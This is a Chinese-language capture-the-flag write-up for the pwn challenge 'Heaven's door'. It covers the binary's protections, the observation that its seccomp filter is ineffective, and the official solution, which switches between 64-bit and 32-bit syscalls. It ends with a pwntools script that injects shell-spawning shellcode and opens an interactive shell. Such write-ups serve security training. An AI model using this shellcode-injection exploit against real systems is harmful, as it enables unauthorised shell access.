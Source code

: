 # Heaven's door

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO|Partial|
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## seccomp rules

见下方图例

## 解题思路

可以读取0xc3个字节，执行shellcode，但是扫描了shellcode，只允许2个`syscall`。
仔细观察seccomp，整个防护是无效的！直接打常规的shellcode拿shell都行...

![diagram](assets/heaven_diagram.png)

[官方wp](https://mp.weixin.qq.com/s/gXYLwdup6HYd_rETUSb9aA)的解法是切换64位/32位系统调用，
*dbgbgtf* 则在考虑再拼一个`syscall`出来。然而，貌似远程执行syscall后，rcx并不是 syscall
之后的地址，他利用rcx做偏移写0x5失败了，最终没有打通。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './heaven'

def payload(lo: int):
    global sh
    if lo & 4:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'set follow-fork-mode parent\nb *0x401709\nc')
    elif lo:
        sh = remote('127.0.0.1', 1336)
        if lo & 2:
            gdb.attach(('127.0.0.1', 1337), 'set follow-fork-mode parent\nb *0x401709\nc', EXE)
    else:
        sh = remote('', 9999)

    sh.send(asm(shellcraft.sh()))

    sh.clean()
    sh.interactive()
    sh.close()
```

## 参考

1. [第八届西湖论剑·中国杭州网络安全技能大赛初赛官方Write Up（下）](https://mp.weixin.qq.com/s/gXYLwdup6HYd_rETUSb9aA)
